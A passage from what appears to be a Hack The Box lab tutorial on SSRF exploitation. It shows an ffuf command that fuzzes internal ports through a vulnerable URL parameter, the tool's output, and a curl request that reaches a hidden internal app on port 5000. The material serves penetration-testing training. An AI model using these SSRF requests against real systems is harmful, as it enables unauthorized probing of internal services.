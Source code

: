 3. Use ffuf with the wordlist and discard the responses which have the size we previously identified.

#### Port Fuzzing

  SSRF Exploitation Example

```shell-session
Pangulin@htb[/htb]$ ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://127.0.0.1:PORT" -fs 30

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://<TARGET IP>/load?q=http://127.0.0.1:PORT
 :: Wordlist         : PORT: ./ports.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 30
________________________________________________

80                      [Status: 200, Size: 153, Words: 11, Lines: 8]
5000                    [Status: 200, Size: 64, Words: 3, Lines: 1]
:: Progress: [65535/65535] :: Job [1/1] :: 577 req/sec :: Duration: [0:02:00] :: Errors: 0 ::
```

We have received a valid response for port `5000`. Let us check it as follows.

#### cURL - Interacting with the Target

  SSRF Exploitation Example

```shell-session
Pangulin@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://127.0.0.1:5000"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 64
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 11:47:16 GMT

<html><body><h1>Hey!</h1><a>Some internal app!</a></body></html>
```
#### cURL - Interacting with the Target
